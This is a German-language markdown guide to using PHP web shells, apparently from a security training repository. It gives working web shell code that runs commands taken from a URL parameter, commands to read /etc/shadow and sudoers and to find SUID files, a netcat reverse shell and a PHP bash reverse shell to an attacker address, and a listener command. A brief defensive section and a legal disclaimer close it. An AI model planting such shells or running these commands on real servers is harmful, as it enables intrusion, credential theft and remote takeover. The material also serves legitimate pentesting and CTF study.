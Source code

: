 # 🐚 PHP WebShell Usage Guide



## Inhaltsverzeichnis

- [Einleitung](#einleitung)
- [Beispiel einer einfachen PHP Webshell](#beispiel-einer-einfachen-php-webshell)
- [Typische Webshell-Kommandos](#typische-webshell-kommandos)
- [Privilege Escalation vorbereiten](#privilege-escalation-vorbereiten)
- [Daten exfiltrieren oder Reverse Shell starten](#daten-exfiltrieren-oder-reverse-shell-starten)
- [Schutzmaßnahmen gegen PHP-Webshells](#schutzmaßnahmen-gegen-php-webshells)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)



## Einleitung

Eine **PHP-Webshell** ist eine serverseitige Datei (z. B. `.php`), die einem Angreifer erlaubt, über den Browser Befehle auf dem Zielsystem auszuführen. Sie werden häufig in Penetration Tests, Capture-the-Flag (CTF)-Challenges oder Sicherheitsanalysen eingesetzt, um **Remote Code Execution (RCE)** nach einem erfolgreichen Upload-Angriff zu ermöglichen.

> ⚠️ **Wichtiger Hinweis:**  
> Dieses Wissen dient ausschließlich der **legalen Sicherheitsforschung**, für **CTFs**, **Testumgebungen** (wie HackTheBox/TryHackMe) oder autorisierte Penetration Tests. Jegliche nicht autorisierte Anwendung ist strafbar.



## Beispiel einer einfachen PHP Webshell

```php
<?php
  echo "<pre>";
  system($_GET['cmd']);
  echo "</pre>";
?>


⏳ Alternative mit exec()
php
<?php
  echo "<pre>";
  exec($_GET["cmd"], $out);
  echo htmlentities(join("\n", $out));
  echo "</pre>";
?>

Zugriff erfolgt z. B. über:
http://target/uploads/shell.php?cmd=whoami
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Typische Webshell-Kommandos
Sobald du Zugriff auf die Shell hast, kannst du mit folgenden Befehlen arbeiten:

### 🧠 Informationsgewinnung
```bash
uname -a                 # Kernel & Systeminfo
id                       # Aktueller Benutzer & Gruppen
pwd                      # Aktuelles Verzeichnis
whoami                   # Benutzername
```

### 🗂️ Verzeichnisstruktur erkunden
```bash
ls -la /home             # Benutzerverzeichnisse
ls -la /root             # Root-Verzeichnis (Zugriff nur bei root)
ls -la /var/www          # Webserver-Verzeichnis
```

### 📝 Systemdateien lesen

```bash
cat /etc/passwd
cat /etc/shadow
cat /etc/sudoers
```

### 🌐 Netzwerk-Check
```bash
netstat -anp             # Ports & Prozesse
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Privilege Escalation vorbereiten
Um weitere Rechte zu erlangen oder Root-Zugriff vorzubereiten:
```bash
find / -type f -perm -4000 2>/dev/null
which nc
which python
```
Mit einem gefundenen Tool kann eine Reverse Shell aufgebaut werden.



## Daten exfiltrieren oder Reverse Shell starten
Beispiel mit Netcat (wenn vorhanden):
```bash
nc [AttackerIP] [Port] -e /bin/bash
```

Oder über eine PHP-gestützte Reverse Shell:

```php
<?php
  exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
?>
```
> 🔁 Den Angriff auf Port 4444 lauschen: 
`nc -lvnp 4444`



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Schutzmaßnahmen gegen PHP-Webshells
- Für Blue Teams oder Sysadmins:
    - Datei-Uploads strikt validieren (MIME, Magic-Bytes, Dateinamen).
    - Webserver konfigurieren, um Ausführung in Upload-Verzeichnissen zu verhindern.
    - .php, .phtml, .inc etc. blockieren oder als reine Textdateien behandeln.
    - Monitoring-Tools wie OSSEC, Wazuh, LMD (Linux Malware Detect) verwenden.



## Siehe auch:

- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_shell_bypass_tricks.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_shell_bypass_tricks.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main//04-os-enumeration/post_exploitation_tools.md](https://github.com/bitRaybytes/cybersecurity/blob/main//04-os-enumeration/post_exploitation_tools.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/cmd_examples_from_shell.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/cmd_examples_from_shell.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_rce_cheat_sheet.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_rce_cheat_sheet.md)



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
